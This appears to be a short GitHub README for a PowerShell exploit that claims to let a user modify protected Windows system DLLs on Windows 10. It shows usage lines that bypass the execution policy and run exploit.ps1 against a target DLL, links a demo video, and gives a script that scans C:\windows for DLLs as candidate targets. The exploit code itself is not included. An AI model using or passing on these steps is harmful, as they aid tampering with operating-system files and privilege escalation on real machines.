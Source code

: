 # Usage
```
Set-ExecutionPolicy Bypass Process
.\exploit.ps1 -TargetFile C:\Windows\Some.dll
```
This will exploit the Windows operating system allowing you to modify the file Some.dll.

# Example
```
Set-ExecutionPolicy Bypass Process
.\example.ps1
```
https://youtu.be/rNSpxJd3_BM
# Finding Vulnerable DLL files
```
$aapsid = 'NT AUTHORITY\SYSTEM'

ForEach($file in (Get-ChildItem -File -recurse -Path 'C:\windows' -Filter *.dll -ErrorAction SilentlyContinue)) {
 
   $acl = Get-Acl -path $file.FullName
   ForEach($ace in $acl.Access) {
      If(($ace.FileSystemRights -eq
           [Security.AccessControl.FileSystemRights]::FullControl) -and 
            $ace.IdentityReference.Value -in $aapsid) {
               Write-Output $file.FullName
              
      }
        
   }
   
   }
```


___


I have only tested this on Windows 10, in theory it should work on other versions.
